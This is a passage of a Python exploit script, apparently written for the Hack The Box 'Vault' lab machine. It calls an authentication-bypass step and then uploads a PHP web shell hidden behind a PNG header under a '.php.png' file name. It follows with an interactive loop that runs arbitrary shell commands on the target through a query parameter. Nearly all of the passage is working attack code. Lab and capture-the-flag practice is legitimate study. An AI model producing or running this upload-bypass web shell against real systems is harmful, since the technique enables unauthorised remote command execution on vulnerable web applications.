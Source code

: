 ```python
    else:
        raise Exception("\n[!] SQL injection failed! :(")

def exploit(target, s):

    characters = string.ascii_letters
    filename = ''.join(random.choice(characters) for i in range(6)) + '.php.png'

    payload = b'\x89PNG\r\n\x1a\n\x00\x00\x00\rIHDR\x00\x00\x01h\x00\x00\x01h\x08\x06\x00\x00\x00z<?php system($_GET["fc8358bcf09e4b3947d1975622a9df14"]);?>'

    # upload image
    url = f'http://{target}/upload.php'
    files = {
        'image': (filename, payload, 'image/png'),
        'submit': (None, 'Upload Image', None)
    }

    response = s.post(url, files=files)

    if 'has been uploaded' in response.text:
        print(f"\n[+] {filename} successfully uploaded!")

    else:
        print(response.text)
        raise Exception("\n[!] Image upload failed! :(")

    manual_exploitation_url = f'http://{target}/images/uploads/{filename}?fc8358bcf09e4b3947d1975622a9df14=<CMD>'
    print(f"\n[+] URL to exploit manually: {manual_exploitation_url}\n")
    
    # webshell fake-shell
    while True:
        command = input('$ > ')
        encoded_command = urllib.parse.quote(command)
        
        if command.lower() == 'exit' or command.lower() == 'quit':
            raise Exception("\n[!] Quitting!")
        
        else:
            url = f'http://{target}/images/uploads/{filename}?fc8358bcf09e4b3947d1975622a9df14={encoded_command}'
            output = s.get(url)
            print(f'{output.text[30:]}')
        
def set_arguments():
    parser = argparse.ArgumentParser(
        description="HTB Vault Exploit"
    )
    parser.add_argument('-t', '--target', required=True, dest='target')
    return parser.parse_args()

def main():
    try:
        args = set_arguments()

        session = bypass_auth(args.target)
        exploit(args.target, session)

        print("\n[+] Script finished successfully")
        sys.exit(0)

    except KeyboardInterrupt:
```